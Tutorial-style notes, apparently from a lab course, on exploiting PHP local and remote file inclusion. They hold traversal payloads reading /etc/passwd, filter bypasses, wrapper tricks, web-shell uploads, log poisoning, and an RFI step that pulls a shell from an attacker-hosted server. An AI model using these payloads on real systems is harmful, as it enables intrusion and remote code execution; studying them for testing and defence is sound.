





# File Inclusion

These notes summarize core techniques for discovery and exploitation of **file inclusion vulnerabilities**. This is by no means an exhaustive guide. 

---

## Overview

Many server-side languages use HTTP parameters to identify which resources are shown on a web page. If the underlying mechanisms are not securely coded, an attacker can manipulate the parameter values and display any file on the back-end server. This is known as a **Local File Inclusion** (LFI) vulnerability.

---

## Basic LFI

Many applications allow the user to change the language of the content presented. This is often done through a GET parameter that loads the content from some file, such as **en.php** or **es.php**. 

In the most basic of cases, the attacker may simply change the value of the GET parameter to some other file on the server, such as **/etc/passwd**.

**Example:**

```bash
# Original request
http://94.237.49.23:48568/index.php?language=en.php
```

```bash
# LFI
http://94.237.49.23:48568/index.php?language=../../../../etc/passwd
```


**Path traversal** is commonly used in LFI payloads in order to traverse up the directory-tree and back to the root directory. Traversal stops at the filesystem root, so including additional **../** sequences does not affect the final resolved path.

Sometimes the parameter value is appended after a fixed directory prefix on the server side. Injecting a regular LFI payload may result in an invalid path. By prepending a slash **/** to the payload, the prefix is treated as a directory and the path becomes valid. It's good practice to resort to this technique by default, because even if there is no prefix, the path will still be valid.

**Example:**

```bash
# Prepended slash
http://94.237.49.23:48568/index.php?language=/../../../../etc/passwd
```

---

## Bypassing Filters

Most applications use various filters to protect against LFI attacks. In these scenarios basic LFI payloads will not work.

### Non-recursive Search and Replace Filter

Non-recursive search and replace filters search for instances of ../ and replace them with an empty string in order to avoid path traversals. 

A non-recursive search and replace filter might look like this when implemented in PHP:

```php
$language = str_replace('../', '', $_GET['language']);
```

```bash
# LFI before filter
http://94.237.49.23:48568/index.php?language=../../../../etc/passwd

# LFI after filter
http://94.237.49.23:48568/index.php?language=etc/passwd
```

The above filter is insecure, since it is **non-recursive**. If the filter only performs a single replacement pass, path traversal is still possible.

**Explanation:**

- The payload **....//** contains **../** starting at character 2 
- A single pass removes only one instance of the payload
- The remaining characters still form **../**

**Bypass Examples:**

```bash
# Bypass: ....//
http://94.237.49.23:48568/index.php?language=....//....//....//....//etc/passwd
```

```bash
# Bypass: ..././
http://94.237.49.23:48568/index.php?language=..././..././..././..././etc/passwd
```

```bash
# Bypass (Windows): ....\/
http://94.237.49.23:48568/index.php?language=....\/....\/....\/....\/etc/passwd
```
---

### Character Blacklist Filter

A character blacklist filter blocks specific characters. LFI-related characters such as dot (**.**) and slash (**/**) are often included in these filters. 

A character blacklist filter may be bypassed by URL encoding the payload. There are many URL encoding tools such as **CyberChef** or **BurpDecoder**.

**Example:**

```bash
# Original
http://94.237.49.23:48568/index.php?language=../../../../etc/passwd
```

```bash
# URL encoded
http://94.237.49.23:48568/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

The above payload may work when input validation is performed before URL decoding, or when decoding is incomplete. In some cases, it is worth double or even triple URL encoding the payload. 

---

### Approved Paths Filter

Some filters use regular expressions to ensure that any included file is under a specific path. An application may for example only accept included files under the **/languages/** directory. 

An approved paths filter might look like this when implemented in PHP:

```php
$language = $_GET['language'];

if (strpos($language, 'languages/') === 0) {
    include($language);
} else {
    die('Invalid file path');
}
```

To find the approved path we can examine a legitimate request to see what path is being utilized:

```bash
http://83.136.253.59:34423/index.php?language=languages/en.php
```


Approved path filters may be bypassed by prepending the approved path to the payload and then performing directory traversal from that location Approved path filters are often combined with a non-recursive search and replace filter and/or a character blacklist filter. Including recursive payloads and/or URL encoding may be a good idea.

**Examples:**

```bash
# Basic approved path bypass
http://83.136.253.59:34423/index.php?language=languages/../../../../etc/passwd
```

```bash
# Recursive bypasses
http://83.136.253.59:34423/index.php?language=languages/....//....//....//....//etc/passwd

http://83.136.253.59:34423/index.php?language=languages/..././..././..././..././etc/passwd

http://83.136.253.59:34423/index.php?language=languages/....\/....\/....\/....\/etc/passwd
```

```bash
# Recursive and URL encoded bypass
http://83.136.253.59:34423/index.php?language=languages%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%65%74%63%2f%70%61%73%73%77%64
```

---

### Appended Extensions Filter

Some filters append file extensions (e.g. `.php`) to user-supplied input before including a file. This makes basic LFI attacks more difficult on modern PHP versions.

However, **legacy PHP versions** may still be vulnerable to extension bypass techniques.

In some older environments, excessively long file paths may be truncated due to internal path handling or filesystem limitations. If truncation occurs *before* the appended extension, the `.php` suffix may be removed, allowing arbitrary file inclusion.

For this technique to work, the path typically needs to begin with a non-existing directory:

```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

Older PHP versions (prior to PHP 5.3.4) may also be vulnerable to **null-byte injection**. By appending a null byte (**%00**) to the payload, filesystem functions may interpret the string as terminated, ignoring anything appended afterward (such as `.php`).

**Examples:**

```bash
# Basic null-byte injection
http://83.136.253.59:34423/index.php?language=../../../../configure%00.php
```

```bash
# Prepended approved path
http://83.136.253.59:34423/index.php?language=languages/../../../../configure%00.php
```

```bash
# Recursive
http://83.136.253.59:34423/index.php?language=languages/....//....//....//....//configure%00.php

http://83.136.253.59:34423/index.php?language=languages/..././..././..././..././configure%00.php

http://83.136.253.59:34423/index.php?language=languages/....\/....\/....\/....\/configure%00.php
```

```bash
# URL encoded null-byte injection
http://83.136.253.59:34423/index.php?language=languages%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%65%74%63%2f%70%61%73%73%77%64%25%30%30%2e%70%68%70
```

---

## PHP Wrappers

### PHP Stream Wrappers

An LFI vulnerability in a PHP application may be leveraged and extended through **PHP stream wrappers**. These wrappers are normally used by developers to access I/O streams at the application level, but can be abused by attackers to read source code or, in some cases, achieve code execution when combined with other techniques.

One of the most useful wrappers for LFI attacks is `php://filter`.

The `php://filter` wrapper allows filters to be applied to a resource before it is processed. PHP supports several filter categories, including:

- String filters
- Conversion filters
- Compression filters
- Encryption filters

A particularly useful conversion filter for LFI exploitation is `convert.base64-encode`.

When PHP files are included via LFI, they are normally executed and rendered as HTML, making it impossible to view their source code. By applying the `convert.base64-encode` filter, the file contents can be base64-encoded instead of executed, allowing the attacker to recover the original PHP source code.

**Syntax:**

```bash
# Syntax
php://filter/read=convert.base64-encode/resource=<file>
```

**Examples:**

```bash
php://filter/read=convert.base64-encode/resource=index

php://filter/read=convert.base64-encode/resource=configure

# Base64 encode PHP source code via LFI
http://94.237.57.211:56084/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```


The returned base64 string can then be decoded:

```bash
# Decode base64 string
echo '<string>' | base64 -d
```


The `php://filter` does not provide code execution by itself, but is commonly used for information disclosure and source code analysis, which may lead to further exploitation.

---

### PHP Data Wrapper

The **data wrapper** (`data://`) can be abused to achieve remote code execution (RCE) by including external data, such as PHP code. 

The data wrapper can only be utilized when `allow_url_include = On` is set in the PHP configuration file. PHP configuration files are usually found at (X.Y is substituted for the PHP version):

- `/etc/php/X.Y/apache2/php.ini` (Apache server)
- `/etc/php/X.Y/fpm/php.ini`     (Nginx server)

Configuration files may be read through an LFI vulnerability along with the `php://filter` wrapper and `convert.base64-encode`.

**Example:**

```bash
# Base64 encode PHP configuration file via LFI
http://94.237.55.43:35886/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

Decode the returned base64 string:

```bash
# Decode base64 string
echo '<string>' | base64 -d
```



The data wrapper can include base64-encoded PHP code that will be decoded and executed by the server.

**Step 1:**

```bash
# Base64 encode a PHP web shell
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```bash
# Base64 encoded web shell
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

**Step 2:**
```bash
# URL encode the base64 string
%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%52%66%52%30%56%55%57%79%4a%6a%62%57%51%69%58%53%6b%37%49%44%38%2b%43%67%3d%3d
```

**Step 3:**
```bash
# Include the encoded shell via the data wrapper:
http://94.237.55.43:35886/index.php?language=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%52%66%52%30%56%55%57%79%4a%6a%62%57%51%69%58%53%6b%37%49%44%38%2b%43%67%3d%3d
```

**Step 4:**

```bash
# Pass commands via the cmd GET parameter:
http://94.237.55.43:35886/index.php?language=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%52%66%52%30%56%55%57%79%4a%6a%62%57%51%69%58%53%6b%37%49%44%38%2b%43%67%3d%3d&cmd=id

http://94.237.55.43:35886/index.php?language=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%52%66%52%30%56%55%57%79%4a%6a%62%57%51%69%58%53%6b%37%49%44%38%2b%43%67%3d%3d&cmd=cd+../../../;cat+/etc/passwd
```

---

### PHP Input Wrapper

The PHP **input wrapper** (`php://input`) is similar to the **data wrapper**, in that it can also be abused to achieve remote code execution. The key difference is how data is supplied:

- The **data wrapper** passes payloads via GET parameters
- The **input wrapper** passes payloads via POST parameters

The input wrapper works by treating the raw POST body as a PHP file. When the application includes `php://input`, any PHP code supplied in the POST request body is parsed and executed.

This technique typically requires:

- An LFI vulnerability using `include()` or `require()`
- `allow_url_include = On` in many environments (though behavior may vary by PHP version and configuration)

**Example:**

In this example, a PHP web shell is sent as POST data, while commands are supplied via the `cmd` GET parameter:

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://94.237.55.43:35886/index.php?language=php://input&cmd=id"
```

Unlike `php://filter`, the `php://input` wrapper allows direct code execution and is therefore a high-impact LFI escalation technique when enabled.

---

### PHP Expect Wrapper

The PHP **expect wrapper** (`expect://`) allows execution of system commands through the **Expect library**. Expect is designed to automate interactive applications, but when exposed through PHP, it can be abused to execute arbitrary commands.

Unlike other wrappers, the **expect wrapper** does not require embedding PHP code. Instead, commands are executed directly by the operating system.

The expect wrapper has strict prerequisites and is therefore rare in modern environments:

- The Expect extension must be installed (php-expect)
- The wrapper must be enabled at compile time
- The application must be vulnerable to LFI using `include()` or `require()`
- In most cases, `allow_url_include = On` is required

Because the Expect extension is **not enabled by default**, this attack vector is uncommon, but extremely powerful when available.

**Examples:**

```bash
http://94.237.55.43:35886/index.php?language=expect://id
```

```bash
http://94.237.55.43:35886/index.php?language=expect://cat+/etc/passwd
```

---

## Remote File Inclusion (RFI)

LFI allows an attacker to include files that are already present on the local server, while RFI allows an attacker to include files from a **remote location**, typically over HTTP or HTTPS. RFI vulnerabilities are commonly exploited by including a malicious script hosted by the attacker.

LFI and RFI vulnerabilities are closely related, but they are not identical. RFI requires that the PHP configuration option `allow_url_include = On` is enabled, while LFI does not. As a result, not every LFI vulnerability is also exploitable as an RFI.

To determine whether a discovered LFI is also an RFI, we attempt to include a remote resource.

**Example:**

```bash
http://94.237.55.43:35886/index.php?language=http://127.0.0.1:80/index.php
```

If the application attempts to fetch and include the remote resource, RFI may be possible. Using **127.0.0.1** is useful to test remote inclusion without relying on external connectivity.

If successful, we can proceed toward remote code execution (RCE) via RFI.

**Step 1:**

Create a simple web shell
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**Step 2:**

Host the web shell on a listening server
```bash
sudo python3 -m http.server 8001
```

**Step 3:**

Include the payload through the LFI/RFI vulnerability

```bash
http://10.129.29.114/index.php?language=http://10.10.14.172:8001/shell.php&cmd=id
```

```bash
http://10.129.29.114/index.php?language=http://10.10.14.172:8001/shell.php&cmd=cd+../../../;ls
```



---

## File Uploads

File upload functionality is a common feature in modern web applications. Being able to store files on the back-end server can be very beneficial for an attacker, as these files may later be leveraged through an LFI vulnerability.

### Image Upload

An attacker may create a malicious image file containing embedded PHP code. By including valid image **magic bytes** and using an allowed file extension, the file may bypass upload filters.

**Example:**

Embed a PHP web shell in a GIF file:

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

If the application later includes the uploaded file using a PHP include function, the embedded PHP code will be executed, resulting in remote code execution (RCE).

To exploit this, the path to the uploaded file must be known. In many cases, the upload path can be inferred from the URL or by inspecting the page source.


With the path known, the file can be included via the LFI vulnerability and commands can be passed through the `cmd` parameter.

**Example:**

```bash
http://94.237.55.43:48679/index.php?language=./profile_images/shell.gif&cmd=id
```

---

### Zip Upload

The PHP **zip wrapper** (`zip://`) can be used to include and execute PHP code stored inside a ZIP archive. This technique requires PHP to be compiled with ZIP support and the ZIP extension to be enabled (which is common, but not guaranteed).

As with other file inclusion techniques, code execution only occurs when the application includes the file using a PHP include function.

**Step 1:**

Create a PHP web shell and place it inside a ZIP archive with an allowed file extension:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Step 2:**

Upload the ZIP file and include the embedded PHP file via the zip wrapper. Files inside a ZIP archive are referenced using the following syntax:

```bash
zip://<path_to_zip>%23<file_inside_zip>
```

The # character must be URL encoded as %23.

```bash
http://94.237.55.43:48679/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

```bash
http://94.237.61.242:42157/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=cd+../../../;cat+/etc/passwd
```

---

### Phar Upload

A **PHAR** archive can be used to achieve RCE when combined with an LFI vulnerability by leveraging the `phar://` wrapper. PHP treats files inside a PHAR archive as regular files, allowing PHP code stored within the archive to be included and executed.

This technique requires:
- PHP PHAR support (enabled by default)
- The application to include files using `include()` or `require()`

**Step 1:**

Create a PHAR archive containing a PHP web shell:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```

**Step 2:**

Compile the PHAR archive and rename it to bypass upload filters:

```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```

**Step 3:**

Upload the file and include the embedded PHP file via the `phar://` wrapper:

```bash
http://94.237.61.242:42157/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

---

## Log Poisoning

Log poisoning means that the result of an executed payload is logged in a logfile. For this type of attack to work, the attacker must be able to read the logfile through an LFI vulnerability. 

### PHPSESSID Poisoning

PHP applications utilize **PHPSESSID** cookies to keep track of session-related user details. These details are stored in session files located in the following directories:

- /var/lib/php/sessions/ (Linux)
- C:\Windows\Temp\ (Windows)

The name of the session file matches the **PHPSESSID** cookie value, prefixed with **sess_**. 

**Example:**

```
/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3

C:\Windows\Temp\sess_el4ukv0kqbvoirg7nkp4dncpk3
```

When intercepting a request in BurpSuite, the **PHPSESSID** is visible in the request:


**Step 1:**

Attempt to read the **PHPSESSID** through LFI:

```bash
http://94.237.48.12:41125/index.php?language=../../../var/lib/php/sessions/sess_4uln7ifh9us3lmej4u5lsd88ic
```



We can indeed read the **PHPSESSID** log file.

**Step 2:**

Change the value of the GET parameter in order to see if it is reflected in the session file:

```bash
# Log value
http://94.237.48.12:41125/index.php?language=log_poisoning


# Read log file through LFI
http://94.237.48.12:41125/index.php?language=../../../var/lib/php/sessions/sess_4uln7ifh9us3lmej4u5lsd88ic
```



The value is reflected in the log file. PHP automatically stores request parameters and session data inside the session file, which makes it possible to inject executable PHP code.

**Step 3:**

Poison the log file by writing a URL encoded web shell to it:

```bash
# Web shell
<?php system($_GET["cmd"]);?>

# URL encoded web shell
%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

# Write web shell to logfile
http://94.237.48.12:41125/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

```

**Step 4:**

Include the log file in an LFI and execute commands through the `cmd` parameter:

```bash
http://94.237.48.12:41125/index.php?language=../../../var/lib/php/sessions/sess_4uln7ifh9us3lmej4u5lsd88ic&cmd=id
```



Keep in mind that the session file is rewritten on subsequent requests, overwriting the injected payload. To execute another command the log file has to be re-poisoned with the web shell.